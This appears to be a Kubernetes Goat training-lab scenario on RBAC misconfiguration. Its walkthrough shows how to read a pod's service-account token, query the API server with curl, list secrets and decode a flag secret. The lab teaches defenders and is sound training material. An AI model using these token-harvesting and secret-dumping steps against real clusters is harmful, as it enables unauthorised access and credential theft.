



# ⎈ RBAC least privileges misconfiguration

## 🙌 Overview

In the early days of Kubernetes, there is no such concept as RBAC (role-based access control) and mostly it uses ABAC (attribute-based access control). Now it has superpowers like RBAC to implement the security principle of least privilege. Still, most of the real-world workloads and resources end up having wider privileges than it is intended to have. In this scenario, we will see how simple misconfiguration like this can gain access to secrets, more resources, and information.


By the end of the scenario, we will understand and learn the following

1. Accessing and talking to the Kubernetes API Server using the REST API
2. Working with different Kubernetes resources and querying them
3. Exploiting the misconfigured/overly permissive permissions to gain access to sensitive information and resources

### ⚡️ The story

We commonly see in the real world where developers and DevOps teams tend to provide extra privileges than required. This provides attackers more control and privileges than they intended to be. In this scenario, you can leverage the service account bound to the pod to provide `webhookapikey` access, but using this attacker can gain control over other secrets and resources.

:::info

To get started with the scenario, navigate to [http://127.0.0.1:1236](http://127.0.0.1:1236)

:::



### 🎯 Goal

:::tip

Find the `k8s_goat_flag` flag value by gaining access to the Kubernetes secret `k8svaultapikey` by exploiting the RBAC privileges to complete this scenario.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Not sure where the ServiceAccount in k8s pod? </b></summary>
  <div>
    <div>Simple googling and looking at docs can show that you can get service account details avaiolable in pod at <b>/var/run/secrets/kubernetes.io/serviceaccount/</b> 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Stuck at querying the API Server? </b></summary>
  <div>
    <div>Again look at docs here as well. To save your time, here you go <a href="https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/">Accessing the Kubernetes API from a Pod</a>. Have fun 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

This deployment has a custom `ServiceAccount` mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services.

:::

- By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```bash
ls -larth
```


- Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges

- To point to the internal API server hostname, we can export it from environment variables

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

- To set the path to the `ServiceAccount` token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

- To set the namespace value

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

- To read the `ServiceAccount` bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

- To point the `ca.crt` path so that we can use it while querying in the `curl` requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

- Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```


- To query the available secrets in the `default` namespace run the following command

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```


- To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```



- To query the pods in the specific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```


:::tip

From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as an API service to create, and delete pods, etc.

:::

- Get the `k8svaulapikey` value from the secrets

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```



- We can decode the base64 encoded value using the following command

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

- Hooray 🥳 , we found an awesome Kubernetes Goat flag

## 🔖 References

- [RBAC Authorization Kubernetes](https://kubernetes.io/docs/reference/access-authn-authz/rbac/)
- [Accessing the Kubernetes API from a Pod](https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/)
- [More misconfigurations in Kubernetes? check OWASP WrongSecrets](https://github.com/OWASP/wrongsecrets)